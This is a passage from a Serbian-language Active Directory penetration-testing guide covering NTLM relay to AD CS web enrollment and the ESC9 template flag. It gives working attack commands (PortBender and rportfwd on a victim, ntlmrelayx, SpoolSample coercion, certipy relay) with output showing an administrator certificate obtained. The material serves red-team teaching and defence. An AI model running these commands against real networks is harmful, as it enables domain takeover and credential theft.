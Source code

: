Važno je napomenuti da ova zloupotreba Certify alata zahteva pristup računaru sa instaliranim alatom i autentifikacionim podacima koji imaju privilegije administratora domena.

```bash
## In the victim machine
# Prepare to send traffic to the compromised machine 445 port to 445 in the attackers machine
PortBender redirect 445 8445
rportfwd 8445 127.0.0.1 445
# Prepare a proxy that the attacker can use
socks 1080

## In the attackers
proxychains ntlmrelayx.py -t http://<AC Server IP>/certsrv/certfnsh.asp -smb2support --adcs --no-http-server

# Force authentication from victim to compromised machine with port forwards
execute-assembly C:\SpoolSample\SpoolSample\bin\Debug\SpoolSample.exe <victim> <compromised>
```

#### Zloupotreba sa [Certipy](https://github.com/ly4k/Certipy)

Zahtev za sertifikat se podrazumevano vrši pomoću Certipy-ja na osnovu šablona `Machine` ili `User`, određenog na osnovu toga da li ime naloga koji se prenosi završava sa `$`. Specifikacija alternativnog šablona može se postići korišćenjem parametra `-template`.

Tehnika poput [PetitPotam](https://github.com/ly4k/PetitPotam) može se zatim koristiti za prinudu autentifikacije. Kada se radi sa kontrolerima domena, potrebno je navesti `-template DomainController`.

```bash
certipy relay -ca ca.corp.local
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Targeting http://ca.corp.local/certsrv/certfnsh.asp
[*] Listening on 0.0.0.0:445
[*] Requesting certificate for 'CORP\\Administrator' based on the template 'User'
[*] Got certificate with UPN 'Administrator@corp.local'
[*] Certificate object SID is 'S-1-5-21-980154951-4172460254-2779440654-500'
[*] Saved certificate and private key to 'administrator.pfx'
[*] Exiting...
```

## Bez proširenja sigurnosti - ESC9 <a href="#id-5485" id="id-5485"></a>

### Objašnjenje

Nova vrednost **`CT_FLAG_NO_SECURITY_EXTENSION`** (`0x80000`) za **`msPKI-Enrollment-Flag`**, poznata kao ESC9, sprečava ugradnju **novog sigurnosnog proširenja `szOID_NTDS_CA_SECURITY_EXT`** u sertifikat. Ova zastavica postaje relevantna kada je `StrongCertificateBindingEnforcement` postavljen na `1` (podrazumevana vrednost), što se razlikuje od postavke `2`. Njena važnost se povećava u scenarijima gde bi slabiji mapiranje sertifikata za Kerberos ili Schannel moglo biti iskorišćeno (kao u ESC10), s obzirom da odsustvo ESC9 ne bi promenilo zahteve.
